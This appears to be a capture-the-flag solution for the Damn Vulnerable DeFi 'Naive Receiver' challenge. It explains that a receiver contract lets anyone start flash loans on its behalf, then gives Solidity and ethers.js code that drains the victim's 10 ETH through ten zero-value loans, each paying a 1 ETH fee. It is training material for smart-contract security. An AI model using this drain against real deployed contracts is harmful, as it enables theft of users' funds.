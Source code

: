 ### [Task Contracts](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v3.0.0/contracts/naive-receiver)

### Task

>There’s a pool with 1000 ETH in balance, offering flash loans. It has a fixed fee of 1 ETH.

>A user has deployed a contract with 10 ETH in balance. It’s capable of interacting with the pool and receiving flash loans of ETH.

>Take all ETH out of the user’s contract. If possible, in a single transaction.

### Observations

- The Reveicever Contract has "Naively" allowed anyone to call a flash loan on it's behalf. 

- The pool it calls to remains the same so we cannot pretend to be a flashloan provider.

- However the pool in question provides a fixed fee of 1 Eth. 

- We can create a contract to make a flashloan 10 times to drain 10 Eth.

### Steps

- Write a for loop that calls the lender contracts `flashLoan` function on the naive receivers behalf...10 times. Doesn't even need to borrow a value > 0.

```
constructor(address payable poolAddress, address receiverAddress) {
        for (uint256 i = 0; i < 10; i++) {
            NaiveReceiverLenderPool(poolAddress).flashLoan(receiverAddress, 0);
        }
    }
```

- Deploy the malicious contract, the malicious action will run in the constructor.

```
const NaiveAttackerFactory = await ethers.getContractFactory("NaiveAttacker", attacker);
    await NaiveAttackerFactory.deploy(this.pool.address, this.receiver.address);
```

